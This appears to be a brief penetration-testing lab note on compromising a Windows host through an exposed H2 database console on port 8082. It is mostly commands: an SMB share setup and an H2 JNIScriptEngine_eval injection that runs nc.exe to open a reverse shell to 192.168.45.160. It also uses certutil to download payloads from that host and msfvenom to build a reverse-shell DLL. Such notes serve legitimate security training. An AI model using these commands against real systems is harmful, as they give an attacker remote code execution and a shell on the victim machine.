 #windows  #H2_DB

- Nmap port shows H2 db is running at 8082 port.
- Searching on google lead us to below steps 
	- https://www.exploit-db.com/exploits/49384

```powershell
python2 smbserver.py -smb2support Share .

CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.160/Share/nc.exe -e cmd.exe 192.168.45.160 443").getInputStream()).useDelimiter("\\Z").next()');


set PATH=%SystemRoot%\system32;%SystemRoot%;

certutil -urlcache -f http://192.168.45.160/psf.exe psf.exe - did not worked

msfvenom -p windows/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=192.168.45.160 LPORT=8082

certutil -urlcache -split -f http://192.168.45.160/exploit.ps1 exploit.ps1

```


